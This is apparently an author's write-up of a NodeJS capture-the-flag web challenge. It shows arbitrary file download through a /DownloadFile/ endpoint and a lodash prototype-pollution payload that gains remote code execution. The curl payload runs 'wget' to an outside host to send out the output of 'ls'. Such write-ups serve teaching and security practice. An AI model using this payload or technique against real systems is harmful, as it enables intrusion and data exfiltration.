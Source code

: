 # EID-CTF


## I wrote this challenge for the EID CTF in Dubai 2020. 

## Write-up


By inspecting the HTTP responses, we figure out that the application is written in NodeJs.


![Application](http://snappyimages.nextwavesrl.netdna-cdn.com/img/4f786f0c3099ae9aad02921d1aab97b9.png)

Next By inspecting the comments we see the below comments:

> Ziko: I could not push the code to the CI/CD pipeline, so NexusIQ was not executed on this project. Would you please check it for me ? the endpoint for getting files is: /DownloadFile/${file}

We can then figure out that there is a download function that takes the file name and download the file. knowing that the application is written in NodeJS, we can assume that the file 'package.json'.

by going to the following link:

> http://localhost:3000/DownloadFile/package.json

We can simply download the 'package.json' file and then read all of the dependencies.

On the line number: 7. we can spot that the main file used in the application is called 'index.js'

By making use of the same 'DownloadFile' link to download the source code of the application:

> http://localhost:3000/DownloadFile/index.js

![sourcecode](http://snappyimages.nextwavesrl.netdna-cdn.com/img/4982e1c2fc989d1e2ed6017190ff8c9d.png)


By searching around you can find that the application is making use of a vulnerable version of 'lodash' library which is vulnerable to prototype pollution and leads to RCE due to the usage of 'template'.

> https://github.com/lodash/lodash/pull/4518

The full payload that can leads to RCE
> curl -D- localhost:3000/pipeline -H 'Content-Type: application/json' -d $'{"constructor": {"prototype": {"sourceURL": "\u2028\u2029global.process.mainModule.require(\'child_process\').exec(\'wget http://sherif.ninja:8080/$(ls)\')"}}}'

On the other hand on the webserver runnning by the player they can receive the output of the command 'ls'
on the http logs

![flag-file](http://snappyimages.nextwavesrl.netdna-cdn.com/img/98d108a92b9e49d3934f80a186abe1d4.png)

by making use of the 'DownloadFile' function, we can simply read the flag by the following link:

http://localhost:3000/DownloadFile/cfl4g_n7w_z3ama_file_downloaded
